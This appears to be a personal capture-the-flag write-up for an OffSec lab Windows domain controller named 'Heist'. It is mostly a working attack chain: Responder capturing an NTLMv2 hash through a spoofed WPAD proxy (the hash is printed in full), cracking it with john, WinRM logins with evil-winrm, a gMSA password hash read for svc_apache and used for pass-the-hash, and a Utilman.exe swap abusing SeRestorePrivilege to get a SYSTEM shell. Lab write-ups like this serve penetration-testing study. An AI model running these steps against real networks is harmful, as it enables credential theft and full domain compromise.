



_____

> [!info]
> IP=192.168.211.165

# DC
- DC01
- heist.offsec

# 8080

spoofed WPAD proxy

```bash
sudo responder -I tun0 -wv
```

> We need to send a request to our IP on a port that is not open and we should get a hash in our Responder window. For this example, I just forwarded the request to my IP without specifying a port since my web server is on port 445 and this request will target port 80, which is not open.


## NTLMv2 hash

```txt
enox::HEIST:7610894aad3d0066:8228E61CB8533C79A3CCDD1BAFEF7B9B:01010000000000008E79B3D1B660DA01B4E9C010DAC169BC0000000002000800460043005500360001001E00570049004E002D0045004D004D004300430031005A004400480057004E000400140046004300550036002E004C004F00430041004C0003003400570049004E002D0045004D004D004300430031005A004400480057004E002E0046004300550036002E004C004F00430041004C000500140046004300550036002E004C004F00430041004C0008003000300000000000000000000000003000002184FB7FA927C34729731C2A223CA1542BCB740A2C3C6CB8F29853E2F03C2D9C0A001000000000000000000000000000000000000900260048005400540050002F003100390032002E003100360038002E00340035002E003200310033000000000000000000
```

```bash
john --wordlist=/usr/share/seclists/rockyou.txt hash
```

enox:california

Remote Management Users

```bash
crackmapexec winrm 192.168.211.165 -u 'enox' -p 'california'
```

```bash
evil-winrm -i $IP -u enox -p california
```


# PrivEsc


```bash
bloodhound-python -u enox -p 'california' -ns 192.168.213.165 -d heist.offsec -c all
```





```cmd
.\GMSAPasswordReader.exe --accountname 'svc_apache'
```



```bash
evil-winrm -i 192.168.213.165 -u 'svc_apache$' -H 0AFF0D9DFA8B436E6688697B0A47B50C
```


# SeRestorePrivilege
-We navigate to “C:\Windows\system32” and locate Utilman.exe:

-We type “ren Utilman.exe Utilman.old” and confirm the filename changed:

-We type “ren cmd.exe Utilman.exe”

-We navigate to another terminal on our Kali machine and type “rdesktop $IP”

-Once at the login page of the RDP session we type “windows key + u key” and receive a cmd session as NT authority/system:
